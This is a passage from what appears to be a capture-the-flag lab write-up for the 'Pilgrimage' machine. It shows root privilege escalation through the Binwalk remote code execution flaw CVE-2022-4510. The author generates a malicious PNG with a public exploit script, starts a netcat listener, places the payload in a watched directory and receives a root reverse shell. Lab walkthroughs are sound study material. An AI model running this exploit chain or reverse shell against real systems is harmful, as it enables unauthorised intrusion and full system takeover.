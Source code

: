 That version has a CVE for remote code execution. exploitdb has an exploit for it `https://www.exploit-db.com/exploits/51249`

we use the exploit to build our payload png file
```bash
emily@pilgrimage:/dev/shm/qest$ python3 exploit51249.py dummy.png $ADDR $PORT

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```

setup a listener on our attacking machine
```bash
┌──(kali㉿kali)-[~/Documents/htb/pilgrimage]
└─$ nc -lvp 1234
listening on [any] 1234 ...
```

and place the generated payload into the `/var/www/pilgrimage.htb/shrunk/` dir
```bash
emily@pilgrimage:/dev/shm/qest$ mv binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
```

once the script sees our binary, binwalk reads it and we get a reverse shell:
```bash
┌──(kali㉿kali)-[~/Documents/htb/pilgrimage]
└─$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from pilgrimage.htb [10.129.159.130] 36042
id
uid=0(root) gid=0(root) groups=0(root)
```

